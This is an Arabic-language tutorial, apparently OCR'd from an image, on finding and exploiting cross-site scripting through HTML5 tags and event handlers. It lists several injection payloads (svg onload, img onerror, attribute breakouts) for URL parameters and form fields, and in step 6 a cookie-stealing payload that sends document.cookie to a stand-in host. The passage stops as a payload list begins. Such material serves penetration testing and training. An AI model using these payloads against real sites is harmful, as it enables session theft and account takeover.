 
## الخطوات العملية للحقن المعتمدة على HTML5 والأحداث
1. **إعداد البيئة**:
   - استخدم متصفحًا مع أداة وكيل (مثل **Burp Suite** أو **OWASP ZAP**) لمراقبة وتعديل الطلبات.
   - حدد حقل إدخال يُحتمل أن يكون عرضة لـ XSS (مثل حقل البحث، نموذج التعليقات، أو معلمة URL مثل `?search=`).
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة وحدة التحكم (Console) والتغييرات في الـ DOM.

2. **اختبار دعم HTML5 والأحداث**:
   - أدخل وسم HTML5 بسيط (مثل `<svg>test</svg>` أو `<div onclick=alert(1)>اضغط</div>`) للتحقق مما إذا كان الإدخال يُعرض كـ HTML أو يُنفذ كشيفرة.
   - إذا ظهر الوسم أو أثر على بنية الصفحة، فهذا يشير إلى إمكانية استغلال وسوم HTML5 أو الأحداث.

3. **إدخال الحقن المعتمدة على HTML5 والأحداث**:
   - ابدأ بحقنة بسيطة مثل `<svg onload=alert('XSS')>` أو `<img src=x onerror=alert(1)>`.
   - جرب الحقن في سياقات مختلفة:
     - معلمات URL: `https://example.com/search?query=<svg onload=alert('XSS')>`
     - حقول نماذج: أدخل `<video poster=x onerror=alert(1)>` في حقل تعليق.
     - سمات HTML: `<input value="><div onclick=alert('XSS')>اضغط</div>"`.
   - استخدم وسوم HTML5 (مثل `<svg>`، `<video>`، `<details>`) وأحداث شائعة (مثل `onload`، `onerror`، `onclick`).

4. **مراقبة الاستجابات**:
   - تحقق من نجاح الحقن بناءً على:
     - **نجاح (True)**: ظهور تنبيه (مثل `alert('XSS')`)، تسجيل رسالة في وحدة التحكم (مثل `console.log('XSS')`)، تغيير عنوان الصفحة، أو تغيير بصري.
     - **فشل (False)**: لا يحدث شيء، ظهور خطأ (مثل رمز حالة 403)، أو تصفية الإدخال.
   - للأحداث التفاعلية (مثل `onclick`)، قم بالنقر أو التفاعل مع العنصر لتشغيل الحقن.
   - استخدم أدوات المطورين (F12) للتحقق من وحدة التحكم أو التغييرات في الـ DOM.

5. **تجربة صيغ وأحداث مختلفة**:
   - إذا فشلت الحقنة (مثل `<svg onload=alert('XSS')>`)، جرب وسوم HTML5 أخرى (مثل `<video>`، `<meter>`) أو أحداث أخرى (مثل `onmouseover`، `ontoggle`).
   - اختبر نقاط إدخال متعددة (مثل حقول نماذج أخرى أو معلمات URL مختلفة).
   - جرب حقنًا بدون تنبيهات (مثل `<svg onload=console.log('XSS')>`) لتجنب إزعاج المستخدم.

6. **تأكيد النطاق وتصعيد الاستغلال (اختياري)**:
   - استخدم حقن تكشف نطاق التنفيذ (مثل `<svg onload=alert(document.domain)>`).
   - تحقق مما إذا كانت الثغرة في بيئة معزولة (مثل iframe أو sandbox).
   - إذا نجحت الحقن، جرب استخراج بيانات (مثل `<svg onload=new Image().src='http://localhost?c='+document.cookie>`) أو تنفيذ هجمات أكثر تعقيدًا.

---

## جميع المحاولات الممكنة للحقن المعتمدة على HTML5 والأحداث
في الحقن المعتمدة على HTML5 والأحداث، المحاولات تركز على استغلال وسوم HTML5 وسمات الأحداث لتنفيذ JavaScript. سأقسم المحاولات إلى فئتين:
1. **الحقن اليدوية**: للاختبار اليدوي باستخدام حقول الإدخال أو Burp Suite Repeater.
2. **الحقن للأتمتة**: للاستخدام مع سكربتات أو أدوات آلية.

### 1. الحقن اليدوية
تُستخدم هذه الحقن عند اختبار الثغرة يدويًا عبر حقل إدخال (مثل البحث أو التعليقات) أو باستخدام Burp Suite Repeater. الهدف هو تنفيذ JavaScript عبر وسوم HTML5 أو أحداث.
